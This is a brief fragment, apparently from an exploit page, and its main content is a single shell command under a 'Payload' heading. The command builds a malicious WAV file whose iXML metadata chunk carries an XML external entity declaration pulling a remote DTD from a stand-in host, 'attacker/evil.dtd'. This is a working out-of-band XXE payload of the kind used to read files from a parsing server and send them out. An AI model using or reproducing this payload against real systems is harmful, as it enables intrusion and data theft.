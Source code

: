 Payload
-------

    echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://attacker/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav